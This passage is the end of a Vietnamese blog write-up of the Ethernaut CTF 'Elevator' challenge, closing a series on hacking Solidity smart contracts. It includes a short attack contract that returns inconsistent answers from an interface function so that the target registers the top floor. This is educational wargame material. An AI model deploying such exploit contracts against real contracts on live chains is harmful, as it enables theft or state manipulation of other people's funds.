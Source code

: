 ### Phân tích

- Trong solidity có đoạn:
> **View Functions**
>
> Functions can be declared view in which case they promise not to modify the state.

- vậy ra `view` thực chất chỉ là một lời hứa "hão" rằng ta chỉ *nhìn* mà không *nắn bóp* dữ liệu. Trên thực tế, trong hàm `view` việc ta *nắn bóp* hay sửa đổi data cũng không có làm sao cả.

### Solution

- Trên RemixIDE, chuẩn bị contract để tấn công, implement `Elevator interface`, nhớ thay địa chỉ `_target` bằng địa chỉ instance của bạn:

```js
contract ElevatorAttack {
  bool public isLast = true;

  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _target) public {
    Elevator elevator = Elevator(_target);
    elevator.goTo(10);
  }
}
```

- Theo trên, cứ tầng chẵn thì hàm sẽ trả về đó là top floor.
- Chạy hàm `attack()`
- Trên Chrome Console, kiểm tra lại điều kiện `top`:

```js
await contract.top()
> true
```

- Submit && all done!

### Bình luận

- Lời hứa chỉ là lời hứa, đừng tin bố con thằng nào.

## Conclusion

Vậy là chúng ta đã hoàn thành chuỗi bài *Blockchain - hacking smart contract with Ethernaut CTF*.

Hi vọng những kiến thức trong đó có thể giúp ích được các bạn ít nhiều trong việc viết code solidity nói riêng cũng như các ứng dụng phi tập trung nói chung.

Enjoy coding!
